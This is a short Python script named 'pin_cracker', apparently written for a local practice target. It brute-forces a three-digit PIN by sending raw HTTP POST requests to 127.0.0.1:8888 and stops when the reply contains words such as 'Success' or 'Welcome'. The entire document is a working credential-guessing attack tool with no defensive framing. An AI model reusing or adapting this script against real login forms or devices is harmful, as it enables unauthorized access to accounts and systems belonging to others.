# pin_cracker
import socket

HOST = '127.0.0.1'  
PORT = 8888        

def send_post_request(pin):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    body = f"pin={pin}"
    request = (
        f"POST / HTTP/1.1\r\n"
        f"Host: {HOST}:{PORT}\r\n"
        f"Content-Type: application/x-www-form-urlencoded\r\n"
        f"Content-Length: {len(body)}\r\n"
        f"Connection: close\r\n"
        f"\r\n"
        f"{body}"
    )

    s.sendall(request.encode())
    response = s.recv(4096).decode()
    s.close()
    return response

def crack_pin():
    for pin in range(1000): 
        pin_str = f"{pin:03d}" 
        print(f"Trying PIN: {pin_str}")
        
        response = send_post_request(pin_str)
        
        if "Success" in response or "Correct" in response or "Welcome" in response:
            print(f"PIN found: {pin_str}")
            break

if __name__ == "__main__":
    crack_pin()
